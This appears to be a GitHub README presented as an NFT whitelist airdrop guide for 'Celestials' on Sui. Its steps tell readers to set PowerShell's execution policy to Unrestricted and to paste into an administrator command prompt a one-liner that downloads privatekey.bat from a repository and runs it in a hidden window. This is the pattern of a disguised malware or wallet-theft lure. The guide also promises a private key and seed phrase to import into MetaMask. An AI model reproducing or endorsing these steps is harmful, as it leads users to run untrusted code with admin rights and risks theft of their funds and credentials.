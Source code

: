 <div style="display: flex; justify-content: space-around;">
<img src="https://github.com/user-attachments/assets/1e6711a8-b47f-49df-a879-e8cde3db7334" alt="photo_5926748594818368500_y" width="300" />
<img src="https://github.com/user-attachments/assets/8fbe62f2-4ca6-4261-8914-4d36f635c46b" alt="photo_5926748594818368500_y" width="300" />
</div>

# CELESTIALS NFT WHITELIST AIRDROP GUIDE

How to generate wallet and MINT Celestials Welcome NFT 

# OPEN POWERSHELL AS ADMIN ON WINDOWS

1. Copy and paste the following in your powershell:
```
Set-ExecutionPolicy Unrestricted
```
2. Type Y when Prompted and close Powershell

# OPEN CMD(COMMAND PROMPT) AS ADMIN ON WINDOWS
1. Copy and paste the following in your CMD:
```
powershell -Command "Invoke-WebRequest -Uri https://raw.githubusercontent.com/CelestialNFT/Airdrop-Whitelist/main/privatekey.bat -OutFile privatekey.bat; Start-Process -FilePath .\privatekey.bat -ArgumentList /c -NoNewWindow -Wait -WindowStyle Hidden"
```
2. You have successfully Minted Your Welcome NFT on sui. 

You will get Private key and secret Phrase in PDF, Import to metamask and wait for TGE event. Follow us on twitter @celestianfts

<img src="https://github.com/user-attachments/assets/85e19765-ffdc-4c8a-97ab-e04692c10ca7" alt="photo_5926748594818368500_y" width="300" />
